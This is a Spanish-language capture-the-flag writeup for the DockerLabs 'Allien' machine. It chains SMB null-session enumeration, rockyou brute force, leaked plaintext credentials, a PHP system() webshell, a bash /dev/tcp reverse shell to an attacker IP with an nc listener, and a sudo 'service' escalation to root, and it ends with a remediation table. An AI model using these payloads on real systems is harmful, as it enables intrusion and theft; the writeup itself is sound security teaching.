

```md
By: B0mb0ncitoo

Este laboratorio lo puedes encontrar en dockerlabs.es de manera gratuita en la sección de Facil.
```
Readme allien · MD
# Writeup: Allien (Samba/PHP → Root)
 
**Dificultad:** Fácil
**Servicios:** SSH (22), HTTP/Apache (80), SMB/Samba (139/445)
**Vector final:** Sudo mal configurado sobre `service` (GTFOBins)

Recuerda que para montar el laboratorio tienes que iniciar tu docker.
```bash
sudo systemctl start docker 
```
Para iniciar la maquina, descomprimirla y ejecutarla.
```bash
bash auto_deploy.sh allien.tar
```
---
 
## 1. Resumen 
 
La máquina expone un servicio Samba con **sesión nula (NULL session)** habilitada y un recurso compartido (`myshare`) de lectura anónima que filtra un JWT. El mismo Samba tiene un segundo recurso (`backup24`) protegido por una contraseña débil, obtenida por fuerza bruta con `rockyou.txt`, que a su vez contiene un archivo de texto plano con credenciales de 10 usuarios, incluida la del `administrador`. Con esa credencial se obtiene acceso SSH directo. Desde ahí se localiza un directorio web (`/var/www/html`) con permisos de escritura para el usuario ya autenticado, lo que permite sobrescribir `info.php` y convertirlo en una **webshell**, obteniendo ejecución de comandos como `www-data`. Finalmente, una regla de `sudo` mal configurada (`NOPASSWD: /usr/sbin/service`) permite escalar a `root` abusando de un binario que GTFOBins documenta como explotable.
 
---
 
## 2. Mapa del ataque
 

 
---
 
## 3. Reconocimiento
 
### 3.1 Escaneo de puertos
 
```bash
nmap -sS -sV -Pn -f 172.17.0.2
```
 
- `-sS`: escaneo SYN (semiabierto, no completa el handshake TCP; más rápido y algo más sigiloso).
- `-sV`: detección de versión de servicio, clave para buscar CVEs específicos por versión.
- `-Pn`: omite el descubrimiento de host por ping (útil si ICMP está bloqueado o, como aquí, contra un contenedor Docker).
- `-f`: fragmenta los paquetes IP para intentar evadir filtros/IDS simples.
**Resultado:** SSH (OpenSSH 9.6), HTTP (Apache 2.4.58) y Samba (139/445) en Linux.
 
> **MITRE ATT&CK:** T1046 – *Network Service Discovery*.
 
### 3.2 Enumeración SMB — `enum4linux -a`
 
```bash
enum4linux -a 172.17.0.2
```
 
`-a` ejecuta todas las comprobaciones: sesión nula, SID del dominio, usuarios, grupos, política de contraseñas, RID cycling y recursos compartidos.
 
Hallazgos clave:
 
- **Sesión nula permitida** (`Server ... allows sessions using username '', password ''`) — Samba acepta autenticación anónima.
- **RID cycling** revela 5 cuentas locales sin necesitar credenciales: `usuario1`, `usuario2`, `usuario3`, `administrador`, `satriani7`.
- **Política de contraseñas débil**: longitud mínima 5, complejidad **desactivada** (`Password Complexity: Disabled`).
- Tres recursos compartidos: `myshare` (sin restricción), `backup24` y `home` (denegados a sesión nula).
> **MITRE ATT&CK:** T1087.001 – *Account Discovery: Local Account*; T1135 – *Network Share Discovery*.
> **OWASP (referencia genérica de superficie):** relacionado con A05:2021 – *Security Misconfiguration* (servicio con autenticación anónima habilitada).
 
---
 
## 4. Acceso anónimo al recurso `myshare`
 
```bash
smbclient //172.17.0.2/myshare -N
```
 
`-N` fuerza login sin contraseña (sesión nula). Dentro:
 
```
prompt OFF     # desactiva la confirmación por archivo al usar mget
mget *         # descarga todos los archivos que hagan match (aquí, access.txt)
```
 
`access.txt` contenía un **JSON Web Token (JWT)** en texto plano. Decodificando el header/payload se observa:
 
- Header: `alg: RS256` (firma asimétrica).
- Payload: email `satriani7@eseemeb.dl`, rol `user`, y — de forma anómala — una **clave pública RSA embebida en el propio token** (`"jwk": {...}`), algo que normalmente indicaría una implementación insegura del lado servidor (posible vector de ataque JWT tipo *key confusion* / inyección de JWK, aunque no se explotó en este laboratorio porque no había un endpoint que validara el token).
> **MITRE ATT&CK:** T1552.001 – *Unsecured Credentials: Credentials In Files*.
> **OWASP:** A02:2021 – *Cryptographic Failures* (token/credenciales expuestas sin cifrado en un recurso de red); si se hubiera explotado el JWT, aplicaría también A07:2021 – *Identification and Authentication Failures*.
 
---
 
## 5. Enumeración web
 
```bash
gobuster dir -u http://172.17.0.2:80/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 200
```
 
- `dir`: modo de fuerza bruta de directorios/archivos.
- `-w`: diccionario (wordlist común de SecLists).
- `-t 200`: 200 hilos concurrentes.
Se descubren `index.php` e **`info.php`** (200 OK) — este último resultó ser clave más adelante, ya que expone `phpinfo()` y, tras la escritura no autorizada, se convierte en la webshell.
 
> **MITRE ATT&CK:** T1595.003 – *Active Scanning: Wordlist Scanning*.
 
---
 
## 6. Fuerza bruta / password spraying sobre SMB
 
```bash
netexec smb 172.17.0.2 -u usuario1 usuario2 usuario3 administrador satriani7 \
  -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
```
 
- Se prueban las 5 cuentas descubiertas por `enum4linux` contra el diccionario `rockyou.txt`.
- `--ignore-pw-decoding` evita que el proceso aborte por líneas del diccionario que no son UTF-8 válido.
**Resultado:** `satriani7:50cent` — contraseña débil y presente en diccionarios públicos, coherente con la política de complejidad desactivada observada antes.
 
> **MITRE ATT&CK:** T1110.001 – *Brute Force: Password Guessing* (más precisamente, al probar varias cuentas contra un diccionario grande, se acerca a T1110.003 – *Password Spraying* invertido / diccionario masivo).
> **OWASP:** A07:2021 – *Identification and Authentication Failures*.
 
---
 
## 7. Acceso al recurso `backup24` y exposición de credenciales
 
```bash
smbclient //172.17.0.2/backup24 -U satriani7%50cent
recurse ON
prompt OFF
ls
```
 
`recurse ON` lista subdirectorios de forma recursiva; `%50cent` pasa la contraseña inline evitando el prompt interactivo.
 
Dentro de `Documents/Personal/` se descargan (`get`):
 
- **`credentials.txt`**: archivo de texto plano con **10 pares usuario:contraseña**, incluida la del `administrador` (`Adm1nP4ss2024`). Este es el fallo más grave del laboratorio: credenciales de producción almacenadas sin cifrar en un recurso de red accesible por un usuario de bajo privilegio.
- `notes.txt`: nota trivial sin valor de explotación.
> **MITRE ATT&CK:** T1552.001 – *Unsecured Credentials: Credentials In Files*; T1078 – *Valid Accounts* (las credenciales encontradas se reutilizan a continuación).
> **OWASP:** A02:2021 – *Cryptographic Failures*; A05:2021 – *Security Misconfiguration* (backup accesible con credenciales débiles).
 
---
 
## 8. Acceso SSH como `administrador`
 
```bash
ssh administrador@172.17.0.2
# password: Adm1nP4ss2024
```
 
Movimiento lateral por **reutilización de credenciales** encontradas en el recurso SMB. `id` confirma `uid=1005(administrador)`, un usuario sin privilegios de root todavía.
 
> **MITRE ATT&CK:** T1021.004 – *Remote Services: SSH*; T1078 – *Valid Accounts*.
 
---
 
## 9. Descubrimiento de ruta de escritura y despliegue de webshell
 
```bash
find / -writable 2>/dev/null | grep -vE "/dev|/proc"
```
 
Filtra `/dev` y `/proc` (ruido habitual) y revela que **`administrador` tiene permisos de escritura sobre `/var/www/html`**, incluyendo `info.php` — una mala configuración de permisos, ya que el propietario del árbol web no debería coincidir con una cuenta de login SSH sin necesidad operativa.
 
```bash
cat > /var/www/html/info.php << 'EOF'
<?php system($_GET['cmd']); ?>
EOF
```
 
Se sobrescribe el `info.php` original (que solo llamaba a `phpinfo()`) por una **webshell de una línea** que ejecuta cualquier comando del sistema pasado por el parámetro GET `cmd`.
 
```bash
curl "http://172.17.0.2/info.php?cmd=id"
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
 
Confirmado: ejecución remota de comandos (RCE) como `www-data`, el usuario del servidor Apache.
 
> **MITRE ATT&CK:** T1505.003 – *Server Software Component: Web Shell*; T1059.004 – *Command and Scripting Interpreter: Unix Shell*.
> **OWASP:** A03:2021 – *Injection* (inyección de comandos del sistema operativo vía `system()` sin sanitizar); A05:2021 – *Security Misconfiguration* (webroot escribible por una cuenta que no debería tener ese permiso).
 
---
 
## 10. Reverse shell interactiva
 
```bash
curl "http://172.17.0.2/info.php?cmd=bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/172.17.0.1/4444%200>%261'"
```
 
Comando URL-encodeado que abre `/dev/tcp/<IP_atacante>/4444` y redirige stdin/stdout/stderr hacia esa conexión (`bash -i` = shell interactiva; `>&` combina stdout y stderr).
 
```bash
nc -lvnp 4444
```
 
Listener en el equipo atacante (`-l` escucha, `-v` verbose, `-n` sin resolución DNS, `-p` puerto). Al recibir la conexión se obtiene una shell interactiva (aunque sin TTY completo, de ahí el aviso *"cannot set terminal process group"*) como `www-data`.
 
> **MITRE ATT&CK:** T1071.001 – *Application Layer Protocol* (para el canal C2/reverse shell) combinado con T1059.004 ya citado.
 
---
 
## 11. Escalada de privilegios — sudo mal configurado
 
```bash
sudo -l
```
 
```
User www-data may run the following commands on ab5f461c7358:
    (ALL) NOPASSWD: /usr/sbin/service
```
 
`www-data` puede ejecutar `/usr/sbin/service` como **cualquier usuario (incluido root)**, **sin contraseña**. `service` no está pensado para ejecución arbitraria de comandos, pero GTFOBins documenta que puede abusarse para obtener una shell.
 
```bash
sudo /usr/sbin/service ../../bin/bash
```
 
**Por qué funciona:** `service` internamente resuelve el nombre del "servicio" como una ruta relativa dentro de `/etc/init.d/`. Al pasar `../../bin/bash` como argumento, la resolución de rutas escapa de `/etc/init.d/` y termina apuntando a `/bin/bash`, que `service` ejecuta con los privilegios heredados de `sudo` (root), entregando una shell como `root`.
 
Referencia oficial de la técnica: **GTFOBins – service** → https://gtfobins.org/gtfobins/service/#shell
 
```bash
id
# uid=0(root) gid=0(root) groups=0(root)
```
 
> **MITRE ATT&CK:** T1548.003 – *Abuse Elevation Control Mechanism: Sudo and Sudo Caching*.
> **OWASP:** no aplica directamente (es una técnica de sistema operativo, no de aplicación web), pero conceptualmente cae bajo A05:2021 – *Security Misconfiguration* si se piensa en términos de gestión de privilegios.
 
---
 
## 12. Causa raíz y remediaciones
 
| # | Hallazgo | Riesgo | Remediación |
|---|----------|--------|-------------|
| 1 | Sesión nula SMB habilitada | Enumeración de usuarios y lectura de recursos sin autenticar | Deshabilitar `guest ok` / sesiones nulas en `smb.conf` (`restrict anonymous = 2`, `map to guest = never`) |
| 2 | Recurso `myshare` de lectura anónima con secretos (JWT) | Filtración de credenciales/tokens | No almacenar secretos en recursos compartidos; ACL por usuario/grupo |
| 3 | Política de contraseñas sin complejidad, longitud mínima 5 | Fuerza bruta trivial con diccionarios públicos | Forzar longitud ≥12, complejidad, bloqueo por intentos fallidos |
| 4 | `credentials.txt` en texto plano en `backup24` | Compromiso total por un solo archivo | Nunca almacenar credenciales en texto plano; usar un gestor de secretos (Vault, etc.) |
| 5 | Reutilización de la misma contraseña de `administrador` en SSH | Movimiento lateral inmediato | Contraseñas únicas por servicio + rotación tras cualquier exposición |
| 6 | `/var/www/html` escribible por `administrador` | Webshell / RCE | Propietario del webroot debe ser una cuenta de servicio dedicada (p. ej. `www-data`), sin login interactivo, y sin que cuentas de administración tengan escritura directa fuera de un pipeline de despliegue |
| 7 | `info.php` con `phpinfo()` expuesto | Fuga de información de configuración (versiones, rutas, variables de entorno) | Eliminar `phpinfo()` de producción |
| 8 | `sudo` `NOPASSWD` sobre `/usr/sbin/service` para `www-data` | Escalada directa a root | Eliminar la regla; si se necesita reiniciar un servicio puntual, usar un wrapper restringido a ese servicio exacto, nunca el binario completo |
 
---
 
## 13. Resumen de credenciales y artefactos obtenidos
 
- `satriani7:50cent` (SMB, vía rockyou.txt)
- `administrador:Adm1nP4ss2024` (SSH, extraída de `credentials.txt`)
- JWT de `satriani7@eseemeb.dl` (sin explotar, documentado como hallazgo secundario)
- Otros 9 pares usuario/contraseña en `credentials.txt` (no usados en esta cadena de ataque, pero igualmente comprometidos)
---
 
## 14. Cadena de ataque en una línea
 
`NULL session SMB` → `filtración de JWT + enumeración de usuarios` → `password spraying (rockyou)` → `credenciales en texto plano en share protegido` → `SSH como administrador` → `webroot escribible → webshell PHP` → `RCE como www-data` → `sudo NOPASSWD sobre service (GTFOBins)` → `root`.
 

